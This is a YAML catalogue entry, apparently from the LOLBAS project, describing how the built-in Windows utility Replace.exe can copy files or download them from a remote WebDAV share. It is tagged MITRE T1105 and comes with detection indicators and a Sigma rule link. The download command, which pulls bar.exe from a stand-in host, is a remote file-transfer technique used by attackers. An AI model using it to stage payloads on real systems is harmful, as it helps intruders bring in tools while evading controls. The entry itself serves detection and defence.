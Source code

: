 ```yaml
---
Name: Replace.exe
Description: Used to replace file with another file
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: replace.exe C:\Source\File.cab C:\Destination /A
    Description: Copy file.cab to destination
    Usecase: Copy files
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
    Description: Download/Copy bar.exe to outdir
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\replace.exe
  - Path: C:\Windows\SysWOW64\replace.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Replace.exe retrieving files from remote server
  - Sigma: https://github.com/SigmaHQ/sigma/blob/bea6f18d350d9c9fdc067f93dde0e9b11cc22dc2/rules/windows/process_creation/proc_creation_win_lolbas_replace.yml
Resources:
  - Link: https://twitter.com/elceef/status/986334113941655553
  - Link: https://twitter.com/elceef/status/986842299861782529
Acknowledgement:
  - Person: elceef
    Handle: '@elceef'
---
```

